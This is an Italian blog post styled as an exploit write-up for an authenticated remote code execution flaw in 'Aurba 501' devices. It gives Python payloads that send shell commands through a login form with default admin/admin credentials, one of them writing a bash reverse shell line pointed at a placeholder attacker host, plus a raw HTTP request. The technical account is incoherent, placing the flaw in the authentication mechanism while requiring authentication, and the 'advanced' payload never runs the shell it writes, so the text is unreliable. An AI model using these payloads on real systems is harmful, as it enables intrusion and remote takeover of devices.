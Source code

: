 ```yaml
---
layout: post
title: '[webapps] Aurba 501 - Authenticated RCE' 
date: 2024-08-24
categories: [security, ransomware]
---
```


# [webapps] Aurba 501 - Authenticated RCE

## Introduzione

Questo articolo riguarda una vulnerabilità identificata nei dispositivi Aurba 501. Si tratta di una condizione di Esecuzione di Codice Remoto (Remote Code Execution - RCE) che richiede autenticazione. La vulnerabilità permette ad un attaccante di eseguire codice arbitrario sulla macchina target, portando a una potenziale compromissione del sistema.

## Dettagli della vulnerabilità

La vulnerabilità risiede nel meccanismo di autenticazione dei dispositivi Aurba 501. Un attaccante autenticato può sfruttare questa vulnerabilità per eseguire comandi remoti, permettendogli di assumere il controllo del dispositivo. Non è chiaro in quale versione del software Aurba la vulnerabilità sia presente, ma è evidente che le versioni non aggiornate sono maggiormente esposte a rischio.

## Esempio di Payload Semplice

Di seguito è presentato un esempio di payload semplice che sfrutta questa vulnerabilità:

```python
import requests
url = "http://target.com/login"
data = {"username": "admin", "password": "admin", "cmd": "ls"}
response = requests.post(url, data=data)
print(response.text)
```

## Esempio di Payload Avanzato

Un esempio di payload avanzato potrebbe includere l'upload di uno script bash che consente un accesso persistente al sistema:

```python
import requests
url = "http://target.com/login"
data = {"username": "admin", "password": "admin", "cmd": "echo 'bash -i >& /dev/tcp/attacker_ip/8080 0>&1' > script.sh"}
response = requests.post(url, data=data)
print(response.text)
```

## Procedura per riprodurre la vulnerabilità

1. L'attaccante deve avere accesso alle credenziali di autenticazione del dispositivo Aurba 501.
2. Utilizzando le credenziali, l'attaccante può eseguire comandi arbitrari sul dispositivo.

## Richiesta HTTP 

La seguente è un esempio di richiesta HTTP POST che può essere utilizzata per inviare il payload:

```http
POST /login HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 66

username=admin&password=admin&cmd=echo 'ls' > script.sh
```

## Impatto della vulnerabilità

Questa vulnerabilità può portare ad una compromissione totale del sistema, permettendo all'attaccante di eseguire codice arbitrario, rubare dati sensibili, installare malware o creare un accesso persistente al dispositivo.

## Patch e Mitigazioni

Al momento non è stato rilasciato alcun aggiornamento software per mitigare questa vulnerabilità. Gli amministratori di sistema sono invitati a monitorare attivamente i loro dispositivi e a modificare le credenziali di default per ridurre il rischio di attacchi.

## Conclusione

Questa vulnerabilità è un serio problema di sicurezza che richiede una risposta tempestiva. Si raccomanda vivamente di modificare le credenziali di default e monitorare attentamente i dispositivi per qualsiasi attività sospetta.

## Considerazioni

L'autenticazione è un elemento cruciale della sicurezza informatica. Questa vulnerabilità mette in evidenza l'importanza di implementare meccanismi di autenticazione robusti e di mantenere i dispositivi costantemente aggiornati.

